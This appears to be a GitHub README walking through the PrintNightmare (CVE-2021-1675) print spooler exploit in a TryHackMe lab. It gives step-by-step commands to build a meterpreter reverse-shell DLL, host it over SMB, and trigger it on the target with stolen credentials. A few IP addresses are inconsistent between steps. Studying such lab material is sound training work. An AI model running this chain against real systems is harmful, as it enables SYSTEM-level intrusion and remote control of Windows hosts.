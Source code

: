# printnightmare-try-hack-me
A Walkthrough of the PrintNightmare vulnerability utilizing the tryhackme environment 

This is a post compromise attack that takes advantage of the printer spooler. This basic spooler function runs as system privilege. Because it runs as system privilege, this means that any authenticated attacker can run code execution. Although Microsoft has released a patched to mitigate this attack, many bugs don’t always get patched, and this bug will continue to show up for some time.<br> 



### CVE-2021-1675 Walkthrough
<br>

- attacker machine: 10.10.217.212
- target machine: 10.10.103.215
  
<br> 
<br>
1. Before running the exploit, create a PrintNightmare director (pn) and a share directory. 

```
git clone https://github.com/tryhackme/CVE-2021-1675
```

<br>
<br> 
2. Be sure to check if environment is vulnerable

```
rpcdump.py @10.10.103.216 | egrep 'MS-RPRN|MS-PAR'
```

<br>
<br>
3. msfvenom to generate payload and create malicious .dll

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
```

<br>
<br>
4. With msfvenom you need to set up meterpreter session on msfconsole using the same payload you used with msfvenom

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.217.212
set lport 4444
run -j
```

<br>
<br>
5. To host the payload, we use smbserver (a tool from impacket). This is the local folder that will share the malicious .dll

```
smbserver.py share /root/Desktop/share/ -smb2support
```
*Make sure to run file share with smb2support to ensure compatibility and effectiveness

<br>
<br>
6. Now, everything is set up, you are ready to run the malicious script. Remember that this is a post-compromise attack, so we have domain controller and domain name, and we have username and password. And then we also have the path to the share file.

```
python3.9 CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.103.215 '\\10.10.217.212\share\malicious.dll'
```




